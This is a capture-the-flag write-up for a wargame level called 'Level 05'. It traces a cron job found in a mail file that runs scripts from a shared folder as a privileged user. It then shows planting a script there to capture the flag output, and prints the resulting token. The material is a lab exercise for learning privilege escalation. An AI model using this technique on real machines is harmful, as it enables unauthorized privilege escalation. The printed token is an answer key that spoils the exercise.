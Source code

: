 # Level 05

## step 1 : try things
```
$ ls -la /*/* level05 | grep level05 2> /dev/null
-rw-r--r--+ 1 root mail  58 Apr 28 12:15 level05
```

## step 2 : read mail
```
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
cron syntax : launch "sh /usr/sbin/openarenaserver" every 2 minutes

## step 3 : analyze /usr/sbin/openarenaserver
```
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

## step 4 : run getflag with /usr/sbin/openarenaserver
 - Put a script to get the output of getflag in the folder /opt/openarenaserver/
```
$ echo 'getflag > /tmp/flag.out' > /opt/openarenaserver/test.sh
```

- wait max 2minutes for cron to run the script

- read the output
```
$ cat /tmp/flag.out
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
